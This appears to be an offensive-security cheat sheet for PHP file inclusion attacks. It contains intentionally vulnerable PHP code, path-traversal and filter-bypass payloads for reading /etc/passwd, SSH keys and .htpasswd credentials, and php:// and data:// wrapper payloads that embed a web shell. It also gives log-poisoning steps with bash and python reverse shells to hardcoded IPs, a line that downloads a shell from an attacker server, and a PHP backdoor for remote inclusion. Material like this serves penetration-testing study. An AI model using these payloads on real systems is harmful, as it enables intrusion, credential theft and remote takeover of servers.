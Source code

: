 ## Local file inclusion

### PHP
##### Vulnerable code:
###### Standard vulnerable to everything:
```php
<?php                                                                                                                                                                                                                                          
include 'templates/header.php';                                                                                                                                                                                                                
?>                                                                                                                                                                                                                                             
<div class="container mt-4">                                                                                                                                                                                                                   
<?php                                                                                                                                                                                                                                          
ini_set('display_errors', true);       # UNSAFE        
ini_set('safe_mode', false);           # UNSAFE (removed from PHP 5.3.0 onwards). If enabled, won't allow reads to anyhting not user-owned, DB creds should be in the file if it accesses any DB. Other functions can be disabled (readfile, basedir)
# http://php.adamharvey.name/manual/en/ini.sect.safe-mode.php

ini_set('allow_url_fopen', false);     # Disallows PHP opening URL files                
ini_set('allow_url_include', false);   # Allows "include" statements to the PHP code. note: Can only be enabled if "allow_url_fopen" is true. https://www.php.net/manual/en/filesystem.configuration.php
ini_set('allow_url_include', 'Off');   # ?

if(isset($_GET['page'])){
        include($_GET['page']); # VULNERABLE (any payload injected will work)
}else{
        include 'menu.php';
}
?>
</div>
<?php
include 'templates/footer.php';
?>
```
###### PHP with filter (/var/www/html):
```php
<?php
include 'templates/header.php';
?>
<div class="container mt-4">
<?php
ini_set('display_errors', true);       # UNSAFE        
ini_set('safe_mode', false);           # UNSAFE (removed from PHP 5.3.0 onwards). If enabled, won't allow reads to anyhting not user-owned, DB creds should be in the file if it accesses any DB. Other functions can be disabled (readfile, basedir)
# http://php.adamharvey.name/manual/en/ini.sect.safe-mode.php

ini_set('allow_url_fopen', false);     # Disallows PHP opening URL files                
ini_set('allow_url_include', false);   # Allows "include" statements to the PHP code. note: Can only be enabled if "allow_url_fopen" is true. https://www.php.net/manual/en/filesystem.configuration.php
ini_set('allow_url_include', 'Off');   # ?

function containsStr($str, $subStr){
    return strpos($str, $subStr) !== false;
}

if(isset($_GET['page'])){
    if(!containsStr($_GET['page'], '../..') && containsStr($_GET['page'], '/var/www/html')){
        include $_GET['page'];
    }else{
        echo 'You are not allowed to go outside /var/www/html/ directory!';
    }
}else{
    include 'menu.php';
}
?>
</div>
<?php
include 'templates/footer.php';
?>

```

#### Achieving LFI:
##### General payloads
```
- Standard:
/etc/passwd
../../../../../../../etc/passwd

- URL encodings
%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd

- "Filter and remove" bypass
....//....//....//....//....//....//....//....//etc/passwd

- Original path kept
/var/www/../../etc/passwd
/var/www/html/../../../etc/passwd
```

##### PHP wrappers
PHP wrappers have the same general functionality as normal LFI, but they can bypass some filters.
```
php://filter/string.rot13/resource=../../../../../etc/passwd
php://filter/convert.base64-encode/resource=../../../../../../../etc/passwd                              // Use to read PHP files (resource=index.php)
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt         // `cmd` argument inclusion, prints "Shell done!" if it works. "allow_url_inclue" needs to be enabled for it to work.
```


### Log poisoning (RCE)
##### Required
Access to files
A log file (Usually `/var/log/apache2/access.log`), see #

#### Linux
##### Important
First, run 
```
../../../proc/self/environ
```
to get general information.
If RCE doesn't work, try RFI (other vhosts on machine)
If there is HTTP-BASIC-AUTH involved, check the `.htpasswd` file, it often contains credentials. (usually `/etc/apache2/.htpasswd`)
##### Target files: 
```
RCE:
/var/log/apache2/access.log
Payload:
	bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.10.10%2F4444%200%3E%261%22 

Other potentially interesting files:
/proc/self/environ
/etc/passwd -->
	/home/USER_FOUND/.ssh/id_rsa
	/home/USER_FOUND/.bash_history
	/home/USER_FOUND/.bash_profile
	/home/USER_FOUND/.bashrc

```

#### Windows
##### Target files: 
```
C:\xampp\apache\logs\access.log
Payload:
	https://www.revshells.com/ (Powershell base64 - URL encoded)
```

#### General
Payload: 
```
<?php system($_GET['test']);?>

// Get PHP shell (named shell.php) from python3 server (saves as shell.php)
<?php file_put_contents('shell.php', file_get_contents('http://IP:PORT/shell.php'))?>
```

First, you need to get the payload in the log system:

```
nc IP PORT
GET /'<?php system($_GET['rce']); ?>'
test=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.241%2F4444%200%3E%261%22 
```

If this does not work, set your User-Agent as the payload.

To use the payload, send a request to the log file with the command in your payload:
```
// Template
curl http://IP/vulnerable.php?file=LOG_FILE_LOCATION&CMD=PAYLOAD

// Examples
curl http://IP/vulnerable.php?file=LOG_FILE_LOCATION&CMD=bash -i >& /dev/tcp/10.8.1.167/4444 0>&1
	curl http://IP/vulnerable.php?file=LOG_FILE_LOCATION&CMD=export RHOST="10.8.1.167";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

### Note
Importanot note:
If you can read `/etc/passwd`, go through every user's home directory for the `.bashrc`


##### Mongo
Target file: `/var/www/dev/index.js`

### RFI
For remote file inclusion, the goal is to load extra PHP from an outside source (the attacker) into the target webpage.
##### Note: make sure the file is hosted using `python3`, and not a host that will parse away the PHP.
##### Example
```php
<?php
if(isset($_REQUEST['cmd'])){
	echo "<pre>";                 # Will load the <pre> tag, making the target website's PHP parser load the command first
	$cmd = ($_REQUEST['cmd']);
	system($cmd);
	echo "</pre>";
	die;
}
?>
```
##### Payload
```
?page=http://192.168.45.232/php_backdoor.php&cmd=id
```
